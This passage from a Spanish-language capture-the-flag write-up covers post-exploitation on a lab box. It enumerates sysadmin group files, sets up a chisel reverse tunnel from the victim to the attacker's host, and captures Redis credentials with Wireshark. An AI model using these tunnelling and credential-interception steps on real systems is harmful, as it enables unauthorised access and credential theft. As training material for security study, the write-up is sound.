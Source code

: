El nuevo usuario pertenece al grupo ```sysadmin```

```null
dan_smith@shared:~$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
```

Busco por archivos perteneciente a este grupo

```null
dan_smith@shared:/$ find \-group sysadmin 2>/dev/null 
./usr/local/bin/redis_connector_dev
```

Es un binario compilado de 64 bits. Lo transfiero a mi equipo

```null
/usr/local/bin/redis_connector_dev: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Go BuildID=sdGIDsCGb51jonJ_67fq/_JkvEmzwH9g6f0vQYeDG/iH1iXHhyzaDZJ056wX9s/7UVi3T2i2LVCU8nXlHgr, not stripped
```

Utilizo ```chisel``` para aplicar ```Remote Port Forwarding```. Desde mi equipo lo ejecuto como servidor

```null
chisel server -p 1234 --reverse
```

En la máquina víctima como cliente

```null
dan_smith@shared:/tmp$ ./chisel client 10.10.16.2:1234 R:6379:127.0.0.1:6379
```

Ejecuto y desde el ```WireShark``` intercepto credenciales a través de la interfaz ```LoopBack```

```null
./redis_connector_dev
[+] Logging to redis instance using password...

INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:1761
run_id:482fb1de80d649ad1650f27e76d85052b5ecff09
tcp_port:6379
uptime_in_seconds:5
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:10395992
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0
 <nil>
```
